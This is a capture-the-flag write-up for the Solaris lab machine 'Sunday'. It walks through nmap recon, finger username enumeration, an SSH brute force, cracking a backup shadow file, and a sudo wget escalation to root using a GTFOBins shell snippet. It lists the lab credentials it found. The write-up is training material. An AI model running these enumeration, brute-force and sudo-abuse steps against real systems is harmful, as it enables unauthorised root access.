









# Sunday

## Machine Info



## Recon

- nmap

```
PORT      STATE SERVICE VERSION
79/tcp    open  finger?
| fingerprint-strings:
|   GenericLines:
|     No one logged on
|   GetRequest:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help:
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest:
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie:
|_    Login Name TTY Idle When Where
111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey:
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)
```

- OS: Solaris

## Foothold

### 79 finger enumeration

- manual enum

```bash
$ finger root@10.10.10.76
Login       Name               TTY         Idle    When    Where
root     Super-User            ssh          <Dec  7 01:27> 10.10.14.46
```

- script enum: pentestmonkey perl script, metasploit





- meaningfull users: root, sammy, sunny

### ssh brute force

- no more attack vector, try ssh brute force three users



- cred: **sunny:sunday**



## Privilege Escalation

### sunny -> sammy

- sudo -l -> command -> nothing more



- backup file found, backup **shadow** found



- crack hash



- cred: **sammy:cooldude!**

### sammy -> root

- `sudo -l` -> `wget` ([wget | GTFOBins](https://gtfobins.github.io/gtfobins/wget/#sudo))

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```



## Exploit Chain

finger username enum -> ssh brute force -> backup shadow found -> sammy shell -> sudo -l -> wget -> root shell
